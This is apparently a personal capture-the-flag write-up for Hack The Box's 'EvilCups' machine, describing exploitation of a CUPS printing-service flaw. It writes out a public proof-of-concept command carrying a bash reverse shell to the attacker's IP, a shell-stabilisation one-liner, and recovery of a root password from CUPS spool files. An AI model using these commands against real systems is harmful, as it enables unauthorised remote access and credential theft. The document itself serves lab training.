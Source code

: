 Hey my name is Jack and this is my write up for the EvilCups machine on Hackthebox.

Machine IP: 10.10.11.40


Like usual I start with enumerating the network which shows that port 631 and port 22 open. Specifically port 631 is running Cups  CUPS 2.4.2. Ive already done my research on this vuln so im somewhat familiar and recognize that port 631 is cups-browsed. https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/#What-is-cups-browsed. This write up is very helpful.

Im gonna use Ippsecs POC to try to add a malicious printer. 
https://github.com/IppSec/evil-cups.git  

I also during my research find out that if i navigate to 
http://10.10.11.40:631/ I will get a webpage for Cups administration. So my workflow is basically gonna be. 1. Add Printer, 2. find a way to trigger this code being ran on website.

I look inside of the source code of the expliot and the syntax is pretty easy to understand
```
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

```

so i send 

python3 evilcups.py 10.10.14.16 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1"'

After 30 seconds the printer appears 
![[Screenshot from 2024-10-08 17-33-46.png]]
Then i go onto the web page and select print test page which gives me a reverse shell as the user lp.
![[Screenshot from 2024-10-08 17-35-12.png]]



I stablize the shell with 
python3 -c 'import pty; pty.spawn("/bin/bash")'





I mess with Linpeas but dont really find anything interesting so I decide to look at the cups documentation and see that printed files are stored in /var/spool/cups. and I keep getting kicked out of my shell. 

I dont have view permissions for the /var/spool/cups directory so i cant list files in the directory, how I challenge this is by feeding all the documentation to chatgpt and it tells me that For example, if the print job ID is 1, the control file would be `/var/spool/cups/c00001`, and the data file might be `/var/spool/cups/d00001-001` (depending on the number of data files submitted with the job). so i do cat d00001-001 which returns alot of info so i feed it into chatgpt and ask if they see a password and find the password is Br3@k-G!@ss-r00t-evilcups.


ALSO IDK WHY BUT I KEEP GETTING KICKED OUT OF THIS BOX. *I think it has to do with the fact that printers are refreshed after a certain amount of time and so my malicious printer stops executing its reverse shell*

But with that password I ssh into root@evilcups and get root.txt

PWNED!

![[Screenshot from 2024-10-08 17-47-35.png]]